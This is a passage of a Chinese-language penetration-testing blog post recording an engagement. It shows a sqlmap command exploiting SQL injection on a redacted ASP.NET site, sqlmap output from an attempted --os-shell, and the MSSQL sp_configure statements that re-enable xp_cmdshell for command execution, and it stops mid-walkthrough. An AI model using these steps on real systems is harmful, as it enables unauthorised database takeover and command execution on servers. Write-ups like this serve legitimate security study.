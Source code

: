 ```yaml
---
title: 'Regsvr32 ole对象'
layout: post
date: '2019-07-19'
categories: 招聘
permalink: "/archivers/2019-07-19/1"
description: 某次项目技术点实录-Regsvr32 ole对象
---
```


# 某次项目技术点实录-Regsvr32 ole对象

**由于环境都无法进行演示，目前取得都是历史留存的截图**

## 突破口

一开始是一个外网的SQL注入，通过sqlmap正常操作，得知是DBA权限，数据库：MSSQL

```
sqlmap.py -u "http://xxx.com/xxx/xxx.aspx?yum=xx&xx=xx" -p yhm --random-agent --cookie='ASP.NET_SessionId=xxxx'
```

![](media/2019-07-19-13-57-49.png)

直接通过`--os-shell`来执行命令：

```
[18:39:23] [INFO] checking if xp_cmdshell extended procedure is available, please wait..
xp_cmdshell extended procedure does not seem to be available. Do you want sqlmap to try to re-enable it? [Y/n] Y
[18:39:25] [WARNING] xp_cmdshell re-enabling failed
```

### 启用xp_cmdshell

手动启动语句：

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```

执行：
